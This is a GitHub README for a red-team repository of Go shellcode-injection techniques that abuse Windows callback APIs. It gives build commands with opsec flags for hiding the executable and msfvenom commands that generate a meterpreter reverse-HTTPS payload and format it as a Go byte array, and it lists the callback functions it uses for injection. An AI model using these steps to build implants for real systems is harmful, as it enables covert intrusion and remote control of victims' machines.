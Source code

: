 # Golang-Injection-Techniques
## Disclaimer
This repository presents a collection of already well-documented injection primitives, adapted to Go. The PoCs are not meant to evade competent AVs out-of-the-box as they have been around for quite some time now, but could be combined along with other techniques.

## Build
```
GOOS=windows go build -o DrawState.exe cmd/DrawStateW.go

# Additional flags for opsec considerations
-ldflags -H=windowsgui  (do not pop any window)
-trimpath               (remove local path from final PE)
-ldflags="-s -w"        (shrink executable)
```
## Payload generation
The `hex` output of msfvenom was used as there was no golang buffer formatting
```
msfvenom --platform windows -a x64  -p windows/x64/exec CMD=calc.exe -f hex -o calc.hex
```
However these few lines allow to format manually 
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=127.0.0.1 LPORT=443 -f raw -o meterpreter.bin
cat meterpreter.bin | xxd -p | sed 's/.\{2\}/0x&, /g' > meterpreter.gohex

# Then in the template
var shellcode = []byte{
  // insert formatted shellcode here
}
```



## Callback injection primitives
The following callback injection primitives have been pushed.
```
- DrawState
- EnumChildWindows
- EnumDisplayMonitors
- EnumDateFormats
- EnumDesktops
- GrayString
- EnumFonts
- LineDDA              
- EnumFontFamilies
- CallWindowProc
- EnumTimeFormats
- EnumWindows
- EnumDesktopWindows
- EnumThreadWindows
- EnumSystemLocales
- EnumSystemGeoID
```

## Untested callback injection primitives 
```
- EnumSystemLanguageGroups
- EnumUILanguages
- EnumSystemCodePages
```
Many more are presented in the pentester's promiscuous notebook ([https://ppn.snovvcrash.rocks/red-team/maldev/code-injection](https://ppn.snovvcrash.rocks/red-team/maldev/code-injection))


### References
- [http://ropgadget.com/posts/abusing_win_functions.html](http://ropgadget.com/posts/abusing_win_functions.html)
- [https://github.com/Ne0nd0g/go-shellcode](https://github.com/Ne0nd0g/go-shellcode)
- [https://github.com/ChaitanyaHaritash/Callback_Shellcode_Injection](https://github.com/ChaitanyaHaritash/Callback_Shellcode_Injection)
- [https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/](https://osandamalith.com/2021/04/01/executing-shellcode-via-callbacks/)

### Relevant resources
- [https://www.pinvoke.net](https://www.pinvoke.net)
- [https://ppn.snovvcrash.rocks/red-team/maldev/code-injection](https://ppn.snovvcrash.rocks/red-team/maldev/code-injection)
